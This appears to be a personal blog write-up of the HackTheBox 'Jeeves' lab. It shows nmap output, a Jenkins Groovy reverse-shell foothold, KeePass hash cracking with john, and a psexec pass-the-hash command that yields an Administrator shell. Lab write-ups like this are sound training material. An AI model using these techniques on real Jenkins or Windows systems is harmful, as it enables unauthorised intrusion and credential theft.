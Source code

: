 ```yaml
---
layout: post
title:  "HackTheBox - Jeeves"
date:   2021-08-05 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m56s, deviation: 0s, median: 4h59m56s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-04T22:15:29
|_  start_date: 2021-08-04T22:14:25
```
We find a directory /askjeeves in port 50000 and we open to see it is running jenkins version 2.87

# FOOTHOLD

Going to Manage Jenkins we see that we can run a groovy script in script console so we try a [groovy reverse shell](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy). And we get a shell back.

We find the user flag in c:\Users\kohsuke\user.txt

# PRIVILEGE ESCALATION

Since my reverse shell was going away every so often and almost no command was running I decided to upgrade to powershell (I still kept losing the shell every 5 mins) 
[Basic Powershell](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)

And uploaded winpeas and ran it to find possible ways of privilege escalation. It shows that there is one CEH.kdbx file in kohsuke's Documents directory. So I uploaded nc.exe (after spending a lot of time searching how to transfer files imagine my feelings when I found out there is just one nc.exe file which can run on windows) and downloaded CEH.kdbx

Since it is encrypted we use keepass2john and crack the hash using john the ripper:

```s
john --wordlist=rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:15 DONE (2021-08-05 00:12) 0.06468g/s 3556p/s 3556c/s 3556C/s nichole2..monyong
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we get in and grab a hash:

```
aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```
We get Administrator shell via psexec.py

```s
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@10.10.10.63
```
BUT THEN , WHERE THE FLAG SHOULD BE THERE , I FOUND THIS !!!!
```
C:\Users\Administrator\Desktop>more hm.txt
more hm.txt
The flag is elsewhere.  Look deeper.
```
One of my friends had the idea that it might be hidden , AND IT WAS :

```s
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,377,772,544 bytes free

c:\Users\Administrator\Desktop>more < hm.txt:root.txt

```

